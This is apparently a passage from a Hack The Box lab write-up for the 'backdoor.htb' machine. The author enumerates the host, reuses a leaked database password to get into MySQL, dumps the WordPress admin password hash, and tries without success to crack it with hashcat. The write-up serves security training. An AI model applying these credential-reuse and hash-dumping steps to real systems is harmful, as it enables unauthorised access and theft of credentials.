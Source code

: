 Let’s start enumerating. 

```bash
sudo -l #requires password, tried db password MQYBJSaD#DxG6qbm, did not work
id #nothing
ls -la #nothing
ss -lntp

State         Recv-Q        Send-Q                Local Address:Port                  Peer Address:Port        Process                                     
LISTEN        0             4096                  127.0.0.53%lo:53                         0.0.0.0:*                                                       
LISTEN        0             128                         0.0.0.0:22                         0.0.0.0:*                                                       
LISTEN        0             1                           0.0.0.0:1337                       0.0.0.0:*            users:(("gdbserver",pid=8409,fd=3))        
LISTEN        0             70                        127.0.0.1:33060                      0.0.0.0:*                                                       
LISTEN        0             151                       127.0.0.1:3306                       0.0.0.0:*                                                       
LISTEN        0             511                               *:80                               *:*                                                       
LISTEN        0             128                            [::]:22                            [::]:* 
```

Let’s try to connect mysql and see if the db password works there:

```bash
mysql -u wordpressuser -h localhost -p #MQYBJSaD#DxG6qbm
```

We are in.

```bash
show databases

use wordpress

show tables;

select * from wp_users;

 ID | user_login | user_pass                          | user_nicename | user_email          | user_url            | user_registered     | user_activation_key | user_status | display_name |
  1 | admin      | $P$Bt8c3ivanSGd2TFcm3HV/9ezXPueg5. | admin         | admin@wordpress.com | http://backdoor.htb | 2021-07-24 13:19:11 |                     |           0 | admin
```

Let’s attempt to decrypt this. Save the password hash to a file and use hashcat:

```bash
.\hashcat.exe wordlists\admin_hash.txt wordlists\rockyou.txt
```

Did not work.
